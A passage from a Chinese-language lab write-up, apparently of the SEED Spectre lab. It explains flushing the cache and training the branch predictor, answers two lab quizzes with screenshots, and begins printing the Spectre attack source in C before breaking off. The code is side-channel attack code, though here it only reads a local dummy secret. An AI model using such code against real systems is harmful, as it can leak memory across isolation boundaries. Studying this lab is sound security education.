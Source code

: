 在训练完之后，我们刷新size的缓存，从而使得后续的`victim(97)`调用中读取size值需要上百个时钟周期

之后刷新`0~256`的缓存，这会导致包括97在内所有数字不在缓存内

```c
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
```

之后执行victim(97)，按常理考虑`temp = array[97 * 4096 + DELTA];`语句不会被执行，因此97也不会在CPU cache中，但是我们实验结果表明97在cache中，因此该语句被执行了

> 关于为什么需要写成array[x * 4096 + DELTA]; 可以见我meltdown的一篇文章

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/20230225224827.png)

quiz1：

>Comment out the line marked with P and execute again. Explain your observation. After you are
>done with this experiment, uncomment it, so the subsequent tasks are not affected

给_mm_clflush(&size);这一行代码加注释之后运行：

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/20230225224958.png)

我们可以看到，如果size仍然在CPU cache中，那么可以快速获得size的值，就不会导致乱序执行，无法获得结果

quiz2:

> Replace Line √ with victim(i + 20); run the code again and explain your observation.

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/20230225224958.png)

同样无法获得结果，说明CPU的分支预测训练是必要的

# The Spectre Attack

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
char    *secret    = "Some Secret Value";   // define secret messege
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
```